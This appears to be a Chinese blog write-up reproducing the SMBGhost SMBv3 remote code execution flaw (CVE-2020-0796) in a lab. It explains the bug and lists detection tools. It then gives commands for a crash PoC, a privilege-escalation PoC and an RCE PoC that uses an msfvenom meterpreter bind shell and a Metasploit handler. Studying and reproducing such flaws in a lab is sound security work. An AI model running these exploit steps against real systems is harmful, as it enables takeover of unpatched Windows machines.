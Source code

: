 ```yaml
---
title: CVE-2020-0796 SMBv3 RCE漏洞检测+复现
categories:

  - 漏洞复现
tags:
  - 漏洞
  - CVE-2020-0796
  - RCE
  - SMB
  - POC
  - 漏洞检测
  - date: 2020-06-09 20:11:00
---
```

## 漏洞简介
>2020年3月10日，微软在其官方SRC发布了CVE-2020-0796的安全公告（ADV200005，MicrosoftGuidance for Disabling SMBv3 Compression）,公告表示在Windows SMBv3版本的客户端和服务端存在远程代码执行漏洞。同时指出该漏洞存在于MicroSoft Server Message Block 3.1.1协议处理特定请求包的功能中，恶意伪造的压缩数据包 时出现的错误引发的，从而造成SMB服务器的缓冲区溢出,攻击者利用该漏洞可在目标SMB Server或者Client中执行任意代码。

### 概述 

>SMB 3.1.1协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

<!--more-->

### 原理 

>漏洞存在于在srv2.sys驱动中，由于SMB没有正确处理压缩的数据包，在解压数据包的时候调用函数Srv2DecompressData处理压缩数据时候，对压缩数据头部压缩数据大小OriginalCompressedSegmentSize和其偏移Offset的没有检查其是否合法，导致其相加可分配较小的内存，后面调用SmbCompressionDecompress进行数据处理时候使用这片较小的内存可导致拷贝溢出或越界访问，而在执行本地程序的时候，可通过获取当前本地程序的token+0x40的偏移地址，通过发送压缩数据给SMB服务器，之后此偏移地址在解压缩数据时候拷贝的内核内存中，通过精心构造的内存布局在内核中修改token将权限提升。

### 影响范围

漏洞不影响 win7，漏洞影响 Windows 10 1903 之后的各个 32 位、64 位版 Windows，包括家用版、专业版、企业版、教育版。

> Windows 10 Version 1903 for 32-bit
> Windows 10 Version 1903 for x64
> Windows 10 Version 1903 for arm64
> Windows 10 Version 1909 for 32-bit
> Windows 10 Version 1909 for x64
> Windows 10 Version 1909 for arm64
> Windows Server 10 Version 1903 for server core installation
> Windows Server 10 Version 1909 for server core installation

## 环境准备

### 环境搭建

攻击机：Kali Linux
:    IP：192.168.219.135
可以 ping 通 win10 虚拟机

靶 机：Windows 10 虚拟机 1909 x64 (专业版）
:    IP：192.168.219.142
关闭防火墙和 defender
1903 或者 1909 版本均可，我这里用的是1909版本

宿主机：Windows 7


### 环境要求
首先确认系统版本符合要求
![](1.png)
使用systeminfo确定下主机有没有打过这个补丁KB4551762
![](2.png)
关闭防火墙和 defender
![](3.png)

## 漏洞检测

### git脚本检测

> https://github.com/ollypwn/SMBGhost

检测返回的数据包中SMB压缩版本，这种检测方式打过补丁依然会误报。
![](4.png)
*PS:脚本适用python3，宿主机电脑中只有python2，稍微修改一下print即可*


### 奇信安检测工具

>http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip

适用于局域网批量检测，快速查找未打补丁的机器。
![](5.png)

### 腾讯电脑管家SMB漏洞修复工具

>http://dlied6.qq.com/invc/QQPatch/QuickFix_SMB0796.exe

适用于个人用户检测，一键快速检测和修复。
![](6.png)

## 漏洞利用

### 蓝屏演示
蓝屏攻击POC:
>https://github.com/eerykitty/CVE-2020-0796-PoC

```
git clone https://github.com/eerykitty/CVE-2020-0796-PoC.git
python3 setup.py install
python3 CVE-2020-0796.py 192.168.219.142
```

安装脚本和依赖库
![](7.png)
依赖库安装成功后执行蓝屏攻击脚本
![](8.png)
攻击成功结果如下
![](9.png)

### 提权演示
本地提权POC:
>https://github.com/danigargu/CVE-2020-0796

文件编译结果执行文件有两个，一个动态的，一个静态的，动态的需要另外安装相关dll文件，我们直接执行静态提权程序，成功弹出更高的system权限命令执行窗口

![](10.png)

### RCE演示
远程利用POC:
>https://github.com/chompie1337/SMBGhost_RCE_PoC

-  Kali下载POC

```
root@kali:~/cve# git clone https://github.com/chompie1337/SMBGhost_RCE_PoC
root@kali:~/cve# cd SMBGhost_RCE_PoC
root@kali:~/cve/SMBGhost_RCE_PoC# ls
```

![](11.png)
*PS：该POC需要用python3环境执行*
-  使用msfvenom生成payload，生成TXT文件便于后面修改

```
root@kali:~/cve/SMBGhost_RCE_PoC# msfvenom -p windows/x64/meterpreter/bind_tcp lport=1234 -f py -o 1.txt
```
![](12.png)
-  将1.txt 生成的code中参数buf改为USER_PAYLOAD，然后替换到exploit.py中的USER_PAYLOAD参数。（顺序不要颠倒，否则执行会失败的，因为你在py全文替换buf的话，不小心会把代码中的全部的buf替换的）

![](13.png)
这里不要忘记字符串前面的二进制格式换`b""`不然脚本执行错误
![](14.png)
-  新建一个终端，启动msf监听本地端口

```
root@kali:~# msfconsole

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > set rhost 192.168.219.142
rhost => 192.168.219.142
msf5 exploit(multi/handler) > exploit
```
![](15.png)
-  运行exploit.py

```python3 exploit.py -ip 192.168.219.142```
![](16.png)

一开始没反应，试了好几次，最后成功反弹shell（大家尝试的时候多试几次，看网上其他大佬说很容易蓝屏，蓝屏没有遇到，只是前几次每次执行后没反应，然后发现win10卡死了，ping不通，重启靶机即可）
![](17.png)

## 参考

[CVE-2020-0796 检测及利用工具](https://www.cnblogs.com/xiaozi/p/13062533.html)